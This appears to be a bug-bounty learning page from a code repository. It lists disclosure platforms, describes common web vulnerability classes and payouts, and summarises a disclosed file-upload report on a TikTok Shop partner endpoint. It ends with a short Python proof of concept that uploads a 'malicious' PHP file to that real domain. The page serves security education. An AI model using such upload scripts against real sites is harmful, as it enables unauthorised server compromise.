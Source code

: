 # Bug Bounties 

Bug bounty reports can be a great way to learn about vulnerabilities, exploit techniques, and responsible disclosure. Here are some resources where you can find bug bounty reports:

| Company             | URL                                                      | Description                                                                                             |
|---------------------|----------------------------------------------------------|---------------------------------------------------------------------------------------------------------|
| HackerOne           | https://hackerone.com/hacktivity                         | Public "Hacktivity" feed with disclosed vulnerability reports from various researchers.                 |
| Bugcrowd            | https://bugcrowd.com/programs                            | Bug bounty platform with individual programs, some of which may have disclosed reports available.       |
| Google VRP          | https://www.google.com/about/appsecurity/reward-program/ | Google Vulnerability Reward Program with a Hall of Fame and other resources containing bug reports.     |
| GitHub Security Lab | https://securitylab.github.com/research                  | Initiative by GitHub to help secure open source software, publishing security research and bug reports. |

The easiest or most common bugs submitted on bug bounty platforms like Bugcrowd and HackerOne often include the following:

- Cross-site Scripting (XSS): This vulnerability allows attackers to inject malicious scripts into web pages viewed by other users. It's prevalent due to the widespread use of JavaScript in web applications.

- Insecure Direct Object References (IDOR): IDOR occurs when an application exposes a reference to an internal implementation object, such as a database key, allowing unauthorized access to sensitive data.

- Cross-Site Request Forgery (CSRF): CSRF vulnerabilities allow attackers to trick users into performing actions they didn't intend to, such as changing their password or making a purchase.

- Information Disclosure: This category covers cases where sensitive data, such as server configurations or user data, is exposed unintentionally.

- Security Misconfiguration: These vulnerabilities arise when an application is improperly configured, leading to potential unauthorized access or data leaks.

- Broken Authentication: This category includes issues like weak password policies, insecure password storage, and session management flaws that can allow attackers to impersonate legitimate users.

The payouts for these vulnerabilities can vary widely depending on the platform, the specific bug, and the severity of its potential impact on the target application. For example, low-severity issues like reflected XSS or information disclosure might fetch rewards in the range of $100 to $500, while more severe vulnerabilities like stored XSS, IDOR, or broken authentication can earn bounties from $500 to a few thousand dollars.

It's essential to note that payouts are highly dependent on the specific program's rules and the vulnerability's impact. Some programs may have higher or lower payouts for specific vulnerability types.


## Reports

### Hackerone - File upload 01
> https://hackerone.com/reports/1890284
 
An unrestricted file upload vulnerability was found on a partner.tiktokshop.com endpoint, where if the content-type in the header was changed, any extension could be uploaded. We thank @h4x0r_dz for reporting this to our team.

An unrestricted file upload vulnerability was discovered on the partner.tiktokshop.com endpoint. This vulnerability allows an attacker to upload a file with any extension by changing the "Content-Type" header. This can potentially lead to the execution of malicious code on the server.

Here is a simple proof of concept (PoC) using Python to demonstrate this vulnerability:

```python
import requests

url = "https://partner.tiktokshop.com/upload_endpoint"  # Replace with the actual upload endpoint
file_path = "malicious_file.php"  # Replace with the path of your malicious file

with open(file_path, 'rb') as f:
    files = {'file': (file_path, f, 'application/octet-stream')}  # Use 'application/octet-stream' as the Content-Type
    response = requests.post(url, files=files)

print(response.text)
```